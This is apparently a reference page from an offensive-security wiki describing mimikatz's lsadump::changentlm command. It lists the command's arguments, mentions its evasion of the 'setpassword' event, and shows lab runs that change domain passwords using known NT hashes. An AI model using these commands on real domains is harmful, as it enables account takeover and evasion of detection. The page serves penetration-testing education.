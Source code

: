 # changentlm

`lsadump::changentlm` can be used to change the password of a user. It accepts either a clear-text password or an NT hash. [According to Benjamin](https://twitter.com/gentilkiwi/status/872588656967548928?s=20) this option avoids the "setpassword" event but it requires to know the previous password or NT hash. It has the following command line arguments:

* `/newpassword`: The new clear text password for the target user
* `/oldpassword` : The existing clear text password to change
* `/user`: the target user account
* `/oldntlm` or `/old` : The existing NT hash to change
* `/newntlm` or `/new` : The new NT hash for the target user
* `/server`: The domain controller FQDN

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="info" %}
A low privileged user can also utilise it to change his/her own password.
{% endhint %}

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
OLD NTLM     : cded5acd2c1fc0f816c63ef317937deb
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : adriane.lena
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1479

>> Change password is a success!
```

While [lsadump::setntlm](setntlm.md) seems to work multiple times for the same user account, this is not the case for `lsadump::changentlm`. According to this [issue](https://github.com/gentilkiwi/mimikatz/issues/201) on mimikatz's Github, a user cannot change his password more than one per day.

```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:optimus /old:b09a14d2d325026f8986d4a874fbcbc7 /newpassword:WhatEverYouWant
OLD NTLM     : b09a14d2d325026f8986d4a874fbcbc7
NEW NTLM     : e0e12e5f0fba8f1efbff3a7ceea6e907

Target server: DC.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732
ERROR kuhl_m_lsadump_changentlm_callback ; Bad new NTLM hash or password! (restriction)
```
